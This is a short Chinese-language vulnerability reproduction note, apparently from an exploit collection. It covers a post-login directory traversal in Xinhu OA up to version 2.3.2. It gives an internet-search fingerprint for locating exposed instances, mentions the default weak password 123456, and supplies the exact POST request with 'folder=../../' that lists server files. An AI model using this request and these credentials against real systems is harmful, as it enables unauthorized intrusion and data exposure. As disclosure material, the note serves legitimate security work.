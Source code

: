 # 

# 信呼OA beifenAction.php 后台目录遍历漏洞

## 漏洞描述

信呼OA beifenAction.php文件中调用了 getfilerows方法，导致了目录遍历漏洞，攻击者通过漏洞可以获取服务器上的文件信息

## 漏洞影响

```
信呼OA <= 2.3.2
```

## 网络测绘

```
app="信呼协同办公系统"
```

## 漏洞复现

登录页面

![image-20220520133147020](./images/202205201331106.png)

其中默认存在几个用户存在弱口令 123456

![image-20220520133200310](./images/202205201332409.png)

存在漏洞的文件为 `webmain/system/beifen/beifenAction.php`

![image-20220520133212813](./images/202205201332896.png)

查看 `getfilerows()` 方法，在 `include/chajian/fileChajian.php`

![image-20220520133224646](./images/202205201332744.png)

该方法遍历目录下的文件名并输出，登录后，发送请求包

```
POST /index.php?a=getdatssss&m=beifen&d=system&ajaxbool=true

folder=../../
```

![image-20220520133237936](./images/202205201332997.png)
